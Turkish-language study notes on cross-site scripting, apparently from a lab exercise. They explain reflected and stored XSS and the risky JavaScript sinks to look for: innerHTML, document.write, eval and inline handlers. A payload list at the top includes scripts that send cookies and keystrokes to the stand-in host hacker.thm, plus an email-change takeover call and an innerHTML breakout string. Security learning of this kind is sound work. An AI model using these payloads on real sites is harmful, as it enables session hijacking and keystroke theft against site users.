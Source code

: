 # PAYLOADS

* `<script>alert('XSS');</script>` : Sitede js kodu çalıştırılabilir mi anlamak için yapılan basit bir popup komutu.

* `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

* `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` : Keylogger

* `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS

Eğer bir web uygulaması kullanıcı tarafından girilen verileri yeterince kontrol etmez ve bu verileri doğrudan web sayfasının kaynak koduna eklerse burda bir **Reflceted XSS** açığı oluşabilir.

## Stored XSS
Adından da anlaşılacağı gibi, XSS verisi web uygulamasında (örneğin bir veritabanında) depolanır ve daha sonra diğer kullanıcılar siteyi veya web sayfasını ziyaret ettiğinde çalıştırılır. 

---

## Kaynak kodunda hangi güvenli olmayan JavaScript kodunu aramalıyız ?

### InnerHTML Kullanımı:
innerHTML özelliğinin kullanımı, kullanıcı tarafından sağlanan verilerin doğrudan HTML içine yerleştirildiği bir durumu işaret edebilir. Bu, kötü niyetli kullanıcıların HTML ve JavaScript enjekte etmesine olanak tanıyabilir.

#### Örnek:

`document.getElementsByClassName('name')[0].innerHTML='kaan';`
bu tarz bir kodu aşmak için `';alert('kaan');//` şeklinde bir kod kullanabiliriz. Baştaki kesme işareti ile `'` isim girilecek alanı kapatabiliriz. Ardından gelen noktalı virgül işareti ise `;` ard arda kod kullanmamıza olanak tanır (linux komutlarında olduğu gibi). Sondaki çift eğik çizgi ise `//` bu girdiden sonra gelen kodları yorum satırına dönüştürmemize olanak tanır. 

### Document.Write Kullanımı:
`document.write` fonksiyonu, sayfanın yüklenme sırasında dinamik olarak içeriği değiştirmek için kullanılır. Ancak, bu yöntem kullanıcı girişlerini kontrol etmeden doğrudan içerik ekleyebilir ve güvenlik riskleri oluşturabilir.

### eval() fonksiyonu:
metin olarak verilen bir JavaScript ifadesini çalıştırır. Kullanıcı tarafından sağlanan verilerle doğrudan kullanıldığında, güvenlik açıklarına neden olabilir. eval yerine daha güvenli alternatifler kullanılmalıdır.

### Inline JavaScript Kodları:
Sayfa içindeki HTML etiketleri arasında veya `onclick`, `onmouseover`, gibi HTML özelliklerinde kullanılan inline JavaScript kodları, kullanıcı girişlerinin doğrudan çalıştırılmasına neden olabilir.


